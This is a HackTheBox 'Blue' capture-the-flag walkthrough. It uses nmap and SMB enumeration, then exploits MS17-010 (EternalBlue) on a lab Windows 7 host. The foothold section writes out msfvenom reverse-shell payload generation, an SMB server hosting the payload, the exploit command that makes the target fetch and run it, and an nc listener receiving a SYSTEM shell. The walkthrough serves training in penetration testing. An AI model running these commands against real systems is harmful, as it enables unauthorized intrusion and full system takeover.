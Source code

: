 # HackTheBox Blue

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.40 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 135,139,445,49152,49153,49154,49155,49156,49157

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.40 -p135,139,445,49152,49153,49154,49155,49156,49157
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:11 +07
Nmap scan report for 10.10.10.40
Host is up (0.27s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m56s, deviation: 34m36s, median: 14m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-05T05:26:21+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-05T04:26:20
|_  start_date: 2021-04-05T04:23:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.31 seconds
```

### Server Message Block

```
┌──(Hades㉿10.10.14.5)-[2.7:14.3]~/scripting
└─$ sudo nmap --script smb-vul* 10.10.10.40 -p 139,445
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:15 +07
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```

Enum using `smbmap` without add user guest, I have nothing.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
```

Adding user guest to tools, it's work now.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40 -u guest
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

## Foothold

### EternalBlue

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/blue)

I drop an exploit `cmd.py` at [Legacy box](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy). Copy and run it for Blue.

Create shell.exe file to open reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f exe > shell.exe
```

Open smb server in kali at folder contain file `shell.exe`.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.3]~
└─$ sudo smbserver.py public /home/kali/walkthrough/hackthebox/blue > /dev/null
```

Execute payload after modify the `USERNAME = 'guest'`. 

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~/walkthrough/hackthebox/blue
└─$ sudo python cmd.py 10.10.10.40 '\\10.10.14.5\public\shell.exe' > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.4]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```